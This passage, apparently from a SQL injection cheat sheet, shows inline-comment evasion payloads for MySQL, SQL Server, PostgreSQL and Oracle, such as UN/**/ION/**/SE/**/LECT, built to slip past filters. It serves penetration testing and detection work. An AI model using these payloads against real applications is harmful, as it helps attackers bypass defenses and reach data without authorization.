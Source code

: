 ### Inline Comment Evasion

Using comment syntax to break up recognizable attack patterns while maintaining SQL functionality.

#### MySQL Inline Comments
```sql
-- Basic inline comment evasion
SELECT/**/username/**/FROM/**/users
UN/**/ION/**/SE/**/LECT/**/1,2,3

-- Nested comment evasion
SELECT/*comment1*/username/*comment2*/FROM/*comment3*/users

-- Version-specific comments (MySQL)
SELECT/*!50001 username*/FROM/*!50001 users*/
UN/*!50001 ION*/SE/*!50001 LECT*/1,2,3
```

#### SQL Server Inline Comments
```sql
-- Basic inline comment evasion
SELECT/**/username/**/FROM/**/users
UN/**/ION/**/SE/**/LECT/**/1,2,3

-- Multi-line comment evasion
SELECT/*
multiline
comment*/username/*
another
comment*/FROM/*
final
comment*/users
```

#### PostgreSQL Inline Comments
```sql
-- Standard inline comments
SELECT/**/username/**/FROM/**/users

-- Nested comment combinations
SELECT/*outer/*inner*/comment*/username/**/FROM/**/users
```

#### Oracle Inline Comments
```sql
-- Basic inline comment evasion
SELECT/**/username/**/FROM/**/users

-- Complex comment structures
SELECT/*comment*/username/*another*/FROM/*final*/users
```

### Character Encoding Evasion
